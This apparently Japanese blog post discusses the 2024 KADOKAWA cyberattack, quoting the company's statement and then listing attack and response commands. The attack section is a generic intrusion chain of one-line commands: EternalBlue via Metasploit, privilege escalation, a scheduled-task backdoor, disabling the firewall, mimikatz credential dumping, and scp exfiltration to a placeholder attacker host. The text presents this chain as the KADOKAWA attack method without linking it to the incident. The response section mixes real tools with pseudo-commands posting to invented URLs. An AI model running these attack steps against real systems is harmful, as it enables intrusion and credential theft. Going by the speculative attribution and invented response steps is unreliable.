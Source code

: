 9日未明、株式会社KADOKAWAは、本社へのサイバー攻撃の被害を受けている旨の声明を発表した。

>2024年6月8日（土）未明に発生したシステム障害により、KADOKAWAグループ ポータルサイト（ https://group.kadokawa.co.jp/ ）をはじめ、当社グループの複数のウェブサイトが利用できない>事象が発生しております。これまでの経緯、現在の状況、今後の対応については、こちらをご覧くだ>さい。

>1.　経緯
　6月8日（土）未明より、当社グループの複数のサーバーにアクセスできない障害が発生しました。この事実を受け、データ保全のため関連するサーバーを至急シャットダウンしました。同日中に社内で分析調査を実施した範囲においては、サイバー攻撃を受けた可能性が高いと認識しております。

>2.　現在の状況
　現在、調査・対応を進めておりますが、現時点で「ニコニコサービス」全般、「KADOKAWAオフィシャルサイト」、「エビテン（ebten）」などで影響が発生していることを確認しております。なお、情報漏洩の有無についても調査を進めております。
https://prtimes.jp/main/html/rd/p/000014844.000007006.html
https://tp.kadokawa.co.jp/

この被害による障害および今後の対応を考察する。

## 攻撃手法
:::details Reconnaissance
```shell
nmap -sV -oN nmap_scan_results.txt <target_IP>
```
:::
source: https://nmap.org/

:::details Exploitation
```shell
msfconsole -q -x 'use exploit/windows/smb/ms17_010_eternalblue; set RHOST <target_IP>; exploit'
```
:::
source: https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/

:::details Privilege Escalation
```shell
powershell -exec bypass -File Invoke-MS16-032.ps1
```
:::
source: https://github.com/PowerShellMafia/PowerSploit

:::details Persistence
```shell
schtasks /create /tn "Backdoor" /tr "cmd.exe /c <payload>" /sc onstart /ru System
```
:::
source: https://docs.microsoft.com/en-us/windows/win32/taskschd/schtasks

:::details Defense Evasion
```shell
netsh advfirewall set allprofiles state off
```
:::
source: https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-advfirewall-firewall-context

:::details Credential Access
```shell
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit"
```
:::
source: https://github.com/gentilkiwi/mimikatz

:::details Data Exfiltration
```shell
scp -r /path/to/data user@<attacker_IP>:/destination/path
```
:::
source: https://man.openbsd.org/scp

:::details Command and Control
```shell
python -m SimpleHTTPServer 80
```
:::
source: https://docs.python.org/2/library/simplehttpserver.html


## 障害対応


:::details Initial Response
```shellscript
# Shutdown affected servers to prevent further data breach
shutdown -h now
```
:::

:::details Incident Analysis
```shellscript
# Use forensic tools to analyze affected servers
sudo apt-get install sleuthkit
tsk_recover -a /dev/sdX1 /path/to/recovery_directory
```
:::

:::details Network Isolation
```shellscript
# Isolate compromised servers from network
ifconfig eth0 down
```
:::

:::details Threat Detection
```shellscript
# Scan for malware or unauthorized access
sudo rkhunter --check
```
:::

:::details Data Integrity Verification
```shellscript
# Verify integrity of important files
sha256sum -c checksums.sha256
```
:::

:::details System Cleanup
```shellscript
# Remove potential malware
sudo clamscan -r / --remove
```
:::

:::details Security Patching
```shellscript
# Apply latest security patches
sudo apt-get update
sudo apt-get upgrade
```
:::

:::details User Notification
```shellscript
# Notify users about potential data breach
echo "We have experienced a data breach. Please change your passwords immediately." | mail -s "Data Breach Notification" user@example.com
```
:::

:::details Ongoing Monitoring
```shellscript
# Implement ongoing monitoring for suspicious activities
sudo apt-get install tripwire
tripwire --init
tripwire --check
```
:::

:::details Strengthening Security
```shellscript
# Strengthen security measures (e.g., firewall rules)
sudo ufw enable
sudo ufw default deny incoming
sudo ufw default allow outgoing
```
:::

:::details Backup Restoration
```shellscript
# Restore data from backups
rsync -avz /path/to/backup /path/to/restore
```
:::

:::details Log Analysis
```shellscript
# Analyze logs for anomalies
sudo ausearch -m AVC,USER_AVC -ts recent
```
:::

:::details Coordination with Authorities
```shellscript
# Report incident to relevant authorities
curl -X POST -H "Content-Type: application/json" -d '{"incident": "cyber attack"}' https://cybersecurity.authority/report
```
:::

:::details Reviewing Security Policies
```shellscript
# Review and update security policies
vim /etc/security/policies.conf
```
:::

:::details Employee Training
```shellscript
# Conduct cybersecurity training for employees
echo "Mandatory cybersecurity training scheduled for all employees" | mail -s "Cybersecurity Training" employees@company.com
```
:::

:::details Third-party Security Audit
```shellscript
# Hire third-party to conduct security audit
curl -X POST -H "Content-Type: application/json" -d '{"request": "security audit"}' https://security.audit/request
```
:::

:::details Encryption Implementation
```shellscript
# Implement encryption for sensitive data
openssl enc -aes-256-cbc -salt -in /path/to/inputfile -out /path/to/encryptedfile
```
:::

:::details Continuous Improvement
```shellscript
# Establish continuous improvement processes for cybersecurity
sudo apt-get install ossec-hids
ossec-control enable
```
:::

:::details Incident Documentation
```shellscript
# Document incident details for future reference
echo "Cyber attack incident details" > /path/to/documentation.txt
```
:::


